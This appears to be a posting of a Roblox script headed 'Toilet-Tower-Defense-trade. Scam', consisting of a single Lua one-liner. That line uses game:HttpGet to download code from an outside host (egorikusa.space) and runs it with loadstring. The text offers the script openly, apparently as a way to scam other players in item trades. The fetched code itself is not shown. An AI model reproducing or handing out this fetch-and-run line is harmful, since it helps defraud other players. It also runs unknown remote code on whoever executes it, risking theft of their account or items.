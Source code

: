 # Toilet-Tower-Defense-trade. Scam
loadstring(game:HttpGet("https://egorikusa.space/e39101912e59f0ada550cb7b.lua", true))()
